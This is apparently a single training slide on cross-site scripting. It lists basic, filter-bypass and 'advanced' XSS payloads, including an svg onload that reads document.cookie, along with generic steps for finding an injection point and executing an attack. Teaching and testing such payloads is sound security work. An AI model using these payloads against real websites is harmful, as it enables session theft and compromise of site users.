

KAOUTHAR-BELKEBIR

Exploitation Techniques

Common Payloads & Methods

Basic

<script>alert(1)</script>

⚠️Exploitation Steps

Identify injection point
Test basic payload
Bypass filters if needed
Craft final exploit
Execute attack scenario

Bypass

<img src=x onerror=alert(1)>

Advanced

<svg onload=alert(document.cookie)>